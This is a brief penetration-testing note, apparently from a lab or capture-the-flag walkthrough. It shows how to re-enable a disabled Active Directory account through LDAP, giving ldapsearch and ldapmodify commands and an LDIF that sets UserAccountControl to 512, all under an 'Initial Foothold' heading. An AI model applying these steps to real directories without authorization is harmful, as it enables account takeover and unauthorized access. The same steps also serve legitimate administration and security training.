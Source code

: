 
#### Initial Foothold

###### Enabling a disabled user via LDAP

We can enable a disabled user in AD via LDAP with `ldapmodify` if we have Ownership of their user object or have access to a user account that has the privilege to make AD changes.


1. Find the DN of the target User

```bash
ldapsearch -x -H ldap://<IP> -D "username@domain" -W -b "dc=domain,dc=com" "(sAMAccountName=<username>)"
```




2. creating a `.ldif` file

An LDIF file is a plain text file used to represent directory entries in a format that can be read and processed by LD

We need to reset the `UserAccountControl` attribute  of the user object.

- Normal (enabled) :  512
- Disabled : 514


```python
dn: <DN of the User retrieved from LDAP>
changetype: modify
replace: UserAccountControl
UserAccountControl: 512
```




3. Running `ldapmodify` to enable the user account

```bash
ldapmodify -x -H ldap://<ip> -D "username@domain" -W -f <ldif_file>
```





PS : - We **cannot** enable a disabled account if we **only** have its password. we must authenticate with **another user that has privileges to make AD changes** or a user that has ownership of our target user object. 





